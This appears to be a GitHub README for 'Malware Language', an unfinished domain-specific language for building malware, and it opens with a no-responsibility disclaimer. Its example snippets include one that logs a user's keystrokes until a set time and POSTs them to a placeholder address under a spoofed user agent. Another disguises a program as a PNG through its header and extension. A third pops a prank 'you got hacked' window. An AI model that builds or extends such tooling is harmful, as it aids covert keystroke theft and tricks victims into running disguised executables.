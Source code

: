 # Malware Language

Customizing evil has never been so easy

### Warning, I take no responsibility for what you create with this
#### Warning 2, there is a lot of stuff not done with this project and therefore there really isn't much you can currently do.

### Example code
Basic example
```
main:{
  malware.name("MrSkeltal"); @ Sets the binary name of our file

  window.x("600");
  window.y("800");
  window.title("You just got hacked bruh!");
  window.url("https://mrskeltal.com/");

  window.run(); @ This runs our nice window, displaying the set url
  system.exit("0");
}
```

Network POST example
```
main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transmog example
```
main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```
